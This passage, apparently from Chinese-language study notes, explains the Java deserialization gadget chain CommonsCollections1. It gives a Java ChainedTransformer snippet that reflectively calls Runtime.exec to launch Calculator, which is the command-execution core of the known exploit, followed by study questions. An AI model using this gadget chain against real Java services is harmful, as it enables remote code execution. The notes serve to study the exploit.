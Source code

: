   - `Hashtable#readObject`反序列化各元素后，会调用`reconstitutionPut`，后面利用链中在比较hash值的时候用到了hashcode相等的两个字符串 yy 和 zZ。最后` AbstractMap#equals` 触发`LazyMap.get()`导致命令执行

# CommonsCollections1

## Basics

开始之前需要理清以下几个方面

- Transformer
- ConstantTransformer
- InvokerTransformer
- ChainedTransformer
- AnnotationInvocationHandler



根据其源码，结合 java.lang.Runtime 可以构成一个命令执行，需要注意的是 Runtime 为单例模式，而且没有继承 Serializable， 因此调用 getRuntime 之后获得的类实例不能反序列化。命令执行前提是调用构造的 ChainedTransformer 的 transform。由此构造出来的命令执行代码是这样的

**Level-0 payload**

```java
public class CommandDemo {
    public static void main(String[] args) {
        ChainedTransformer demo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"open -a Calculator"})});
        demo.transform(String.class);
    }
}
```

弄清楚上述 payload 只需要解决以下几个问题：

1. 各 Transformer 的作用，以及他们之间的联系
2. 为什么需要一个返回原本传入对象的 ConstantTransformer ，这种方式不是多此一举么？
3. 为什么需要反射调用 getRuntime，而不是直接传入 Runtime.getRuntime ？



CommonsCollections1 网上的 POC 其实也涉及到了两个利用链

- TransformedMap（网上流传的利用链）
- LazyMap （ysoserial 中利用链）

这里引用 @phithon 师傅 Java安全漫谈 的一段话
